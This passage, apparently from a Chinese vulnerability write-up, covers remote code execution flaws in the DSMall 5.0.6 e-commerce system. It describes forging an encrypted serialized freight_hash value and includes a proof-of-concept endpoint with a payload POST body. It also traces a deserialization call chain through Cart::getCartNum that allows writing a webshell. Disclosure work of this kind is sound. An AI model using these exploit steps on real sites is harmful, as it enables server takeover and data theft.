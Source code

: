 漏洞利用：  
通过分析我们知道  
Unserizlize(base64_decode(ds_decrypt(strval($string),sha1(md5($member_id . ‘&’ . MD5_KEY)), 0)))  
$key=sha1(md5($member_id . ‘&’ . MD5_KEY))  
$_POST[freight_hash]=ds_encrypt(strval(base64_encode(serialize($a))),$key);

A) MD5_KEY 是一个常量，从源码中获取  
B) $member_id可以通过文件上传文件接口dsmall506/public/index.php?s=home/Snsalbum/swfupload 获取

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d1e2ac53771bb33c.jpg)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0146985162b523f502.jpg)

Poc:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01d73786bfd442fb74.jpg)

Url:[http://test.com/dsmall506/public/index.php?s=home/Buy/change_addr](http://test.com/dsmall506/public/index.php?s=home/Buy/change_addr)  
Post:city_id=1&area_id=1&freight_hash=se1atRqVpfbQo1INkwRgOXeQIUpFfKnR5lnhQVmjUhnYB9v1NU7JxIxWFRYDA6ihAavR_QiUcQ8

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t011530e8ada76badde.jpg)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0154850a235cff4c48.jpg)

### 远程代码执行漏洞四：

利用条件：无  
公共模块modelCart.php getCartList和getCartNum  
方法中存在可以被用户控制的反序列化操作，利用thinkphp5的代码执行反序列化pop chain 可以往目标服务器写文件getshell.  
applicationcommonmodelCart.php  
getCartList 方法反序列化

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0123c78990247d075f.jpg)

getCartNum反序列化

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01aa5ab2f8648a4363.jpg)

这里对getCartNum这个点的利用进行分析一下。通过查找存在多处对getCartNum的函数的调用，跟踪分析controller子类BaseHome中有一条简单方便的call chain，这条调用链的起点来自BaseHome类的初始化函数中，因此该类的所有子孙类的任何方法调用都会触发这条调用链。整个调用过程：  
BaseHome::_initialize->BaseHome::showCartCount->Cart::getCartNum
